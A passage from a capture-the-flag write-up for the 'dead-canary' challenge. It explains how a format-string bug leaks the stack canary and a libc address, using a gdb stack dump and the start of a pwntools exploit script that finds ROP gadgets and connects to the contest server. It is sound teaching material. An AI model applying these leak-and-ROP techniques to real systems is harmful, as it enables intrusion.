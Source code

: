 This is all that is needed to write an exploit to update the GOT as well as overflow the buffer with an 8 byte attack, however there's nothing really useful in the binary (no win function), so libc will need to be leaked.  This can be done with a format string exploit using `%s` to leak from the GOT (see [Got It](https://github.com/datajerk/ctf-write-ups/blob/master/hsctf7/got_it/README.md) as an example) or we can just pull from the stack.  I went with the latter since I wanted to find a stack address as well:

```
06: 0x00007fffffffe410│+0x0000: 0x0000000a68616c62 ("blah\n"?) ← $rsp, $rdi
...
39: 0x00007fffffffe518│+0x0108: 0xd47acbfe72babe00
40: 0x00007fffffffe520│+0x0110: 0x0000000000400880  →   push r15 ← $rbp
41: 0x00007fffffffe528│+0x0118: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
42: 0x00007fffffffe530│+0x0120: 0x0000000000000001
43: 0x00007fffffffe538│+0x0128: 0x00007fffffffe608  →  0x00007fffffffe809  →  "/pwd/datajerk/redpwnctf2020/dead-canary/bin/dead-c[...]"
```

Above is the stack after setting a break point just before the vulnerable `printf` and entering `blah` as _your name:_.  From the script above we know that the start of the `printf` is at offset 6 (I numbered the stack above), and that the canary is at offset 39.  This aligns with the output above.  Looking down stack there's a reference to libc at offset 41 and a stack leak at offset 43 (it's very similar to the stack addresses).

Now we have everything we need.

[exploit.py](exploit.py):

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./dead-canary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')
binary.symbols['main'] = 0x400737

rop = ROP([binary])
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
add_rsp_8 = rop.find_gadget(['add rsp, 8','ret'])[0]

offset = 6
canaryoffset = 39
libcoffset = 41

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31744)
```

Above is the initial setup.  The offsets were computed or discovered above.  Since there's no symbols in the binary, `main` had to be manually assigned (see Ghidra disassembly for `FUN_00400737`).  We'll also need a few ROP gadgets for the ROP chain (`pop rdi` and `add rsp, 8` are functionally identical for this exploit, however my first thought was to just add to `rsp`).
